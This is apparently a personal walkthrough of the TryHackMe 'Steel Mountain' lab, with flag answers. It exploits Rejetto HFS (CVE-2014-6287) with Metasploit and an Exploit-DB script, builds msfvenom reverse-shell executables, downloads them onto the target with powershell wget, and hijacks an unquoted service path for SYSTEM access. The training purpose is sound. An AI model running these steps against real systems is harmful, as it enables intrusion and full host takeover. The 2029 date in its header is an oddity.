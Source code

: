 ```yaml
---
title: 'Steel Mountain'
excerpt: 'Lorem bleh blah bleh blah'
date: '2029-03-25T05:35:07.322Z'
author:
  name: Collin Orner
---
```



# Steel Mountain

# Task 1 - Introduction

Deploy the Machine.

## Who is the employee of the month?

If you go to the IP of the website, you will see a picture of a man from Mr. Robot. If you watched the show, you may recognize him. I forgot his name, so I reverse searched the image to find his name.

`Answer:` <hidden> Bill Harper </hidden>

# Task 2 - Initial Access

## Scan the machine with nmap. What is the other port running a web server on?

I ran `nmap -sCV -A -Pn -vvv <ip>` to find the port running a http web server.

`Answer:` <hidden> 8080 </hidden>

## Take a look at the other web server. What file is running?

After finding the port number from the nmap scan, I went to the url with the port number and found the server information at the bottom. I did some OSINT on the server version and found the exact name.

`Answer:` <hidden> Rejetto Http File Server </hidden>

## What is the CVE number to exploit this file server?

Along with finding the file server running, on the same website it showed the CVE number. [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

`Answer:` <hidden> 2014-6287 </hidden>

## Use Metasploit to get an initial shell. What is the user flag?

run Metasploit with `msfconsole`

search for the exploit by typing in the CVE number with the command `search 2014-6287`

use the exploit with `use 0`

all you have to set is your RHOSTS and RPORT. Under the `show options` command it shows that there are a lot of required options but you only need those 2. 

I was getting an error saying, "This exploit may require manual cleanup of '%TEMP%\txVTS.vbs' on the target." To fix this, simply restart your box and get a new IP.

After running `exploit` I got a meterpreter shell within the metasploit console.

Running `pwd` I found by default I was put in the directory under the Users\bill, and figured I might check the Desktop.

On the Desktop there was a user.txt file, so I ran `cat user.txt` to get the flag

`Answer:` <hidden> b04763b6fcf51fcd7c13abc7db4fd365 </hidden>

# Task 3 - Privilege Escalation (With Metasploit)

### Take close attention to the CanRestart option that is set to true. What is the name of the name of the service which shows up as an unquoted service path vulnerability?

Download the script from the box with `git clone [https://github.com/PowerShellMafia/PowerSploit.git](https://github.com/PowerShellMafia/PowerSploit.git)` 

I put it into my TryHackMe folder for SteelMountain to keep it more organized. 

Go back to your meterpreter and upload it with `upload /home/kali/../PowerUp.ps1`

On the box it tells you to run `load powershell` in the meterpreter then `powershell_shell`

I checked to run the script with `./PowerUp.ps1` and it might've executed, but I checked for the CanRestart option with the command `invoke-allchecks` 

`Answer:` <hidden> AdvancedSystemCareService9 </hidden>

### What is the root flag?

First, I made the reverse shell with the command given from the box `msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o Advanced.exe`

Then I went to the meterpreter and backgrounded the shell to load the exploit named `exploit/multi/handler` 

With this as my exploit, I set the payload to `windows/shell/reverse_tcp`

Make sure you match up the LHOST and LPORT to link with the reverse shell created with msfvenom. 

Run the exploit, and go into the old meterpreter with `sessions 0`

In here, cd into the Advanced SystemCare in the Program Files x86.

Open a shell with `shell` and stop the program with `sc stop AdvancedSystemCareService9` 

Exit out of this shell and upload the .exe you made with msfvenom into the Advanced SystemCare folder. 

Go back into the shell, and start the service with `sc start AdvancedSystemCareService9` 

This should launch the program with your executable making it so you can get root access. 

Look around in the root folder for the root.txt file.

`Answer:` <hidden> 9af5f314f57607c00fd09803a587db80 </hidden>

# Task 4 - Access and Escalation Without Metasploit

First you want to get your exploit.

I searched for the exploit using searchsploit; `searchsploit rejetto http file server`

As you can see, the EDB-ID matches up with the searchsploit Exploit Title.

If you're on kali linux, it's already in your system so you can copy it over with `cp /usr/share/exploitdb/exploits/windows/remote/39161.py <filename.py>`

Nano into the .py file and set your local ip address to your openvpn IP.

Set the local port number to a port you will remember to run netcat with later on. 

On another tab in your terminal, start a SimpleHTTPServer with `sudo python -m SimpleHTTPServer <port>` (just use like port 80 or 8080)

On another tab in your terminal, start up that netcat listener on the port you put in the .py exploit file. `nc -lvnp <port>`

Run the exploit .py file with the command `pyhton <filename>.py <target IP> 8080` 

If you get a 404 response in your Http Server, copy the ncat.exe to nc.exe, the script reads the listener as a different file name then what the box provides.

Once you get a 200 response message in the Http Server, run the exploit again and you should get a shell in your NC listener. 

### What powershell -c command could we run to manually find out the service name?

`Answer:` <hidden> powershell -c Get-Service </hidden>

Now let's escalate to Administrator with our new found knowledge.

Download the WinPeas.exe file from the GitHub repo for privilege escalation. [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated Releases/winPEASx64.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe)

With this, upload it to your target's machine with the new command you learned (powershell -c) `powershell -c wget "http://<local IP><port>/winPEASx64.exe" -outfile "winPEAS.exe"`

Run the file by simply typing the file name `winPEAS.exe`

Now, go back to your local host and make the ASCService.exe like we did with metasploit last task. `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o ASCService.exe` this will make the ASCService.exe on your local machine, and now you have to upload it to the target host.

Upload it with `powershell -c wget "http://<ip>:<port>/ASCService.exe -outfile "ASCService.exe"`

Now, just like in the Metasploit part, stop the service with `sc stop AdvancedSystemCareService9`

And then copy the .exe to the Advanced SystemCare with `copy ASCService.exe "Advanced SystemCare"`

Just start the service up again and your exploit will be encoded into the start. `sc start AdvancedSystemCareService`

Now you are root, the root.txt flag is right in the open it's not hard to find at all if you still need the root.txt flag. 

Congratulaions! You did the room. Thanks for reading my writeup! 🐦@collinhacks

